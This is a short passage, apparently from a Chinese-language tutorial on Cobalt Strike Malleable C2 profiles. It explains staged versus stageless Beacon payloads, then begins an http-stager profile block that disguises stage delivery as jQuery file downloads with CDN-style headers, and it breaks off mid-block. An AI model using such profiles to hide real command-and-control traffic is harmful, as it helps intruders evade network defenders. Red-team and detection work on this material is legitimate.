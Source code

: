 ```apl
        }
	}
}
```



### http-stager

C2与Beacon之间有两种通信方式：stager(分阶段)与stagerless(无阶段)。这两种类型的Payload的主要区别在于它们的大小，以及它们如何被传递和执行

- **stager：**Stager是一个小型的引导程序，其主要任务是连接到攻击者的服务器（或者某个中间节点），下载剩余的Payload（即Stage部分），然后执行它
- **stagerless：**这种Payload在被传递到目标系统时就已经完整，没有分为Stager和Stage两部分。一旦Payload到达目标系统，它就可以立即执行

Cobalt Strike提供了`http-stager`代码块，使我们可以控制stage（即Beacon的核心代码）的发送过程，下面是一个`http-stager`的示例

```apl
http-stager {  
    set uri_x86 "/jquery-3.3.1.slim.min.js";
    set uri_x64 "/jquery-3.3.2.slim.min.js";

    server {
        header "Server" "NetDNA-cache/2.2";
        header "Cache-Control" "max-age=0, no-cache";
        header "Pragma" "no-cache";
        header "Connection" "keep-alive";
        header "Content-Type" "application/javascript; charset=utf-8";
        output {
            ## The javascript was changed.  Double quotes and backslashes were escaped to properly render (Refer to Tips for Profile Parameter Values)
            # 2nd Line            
```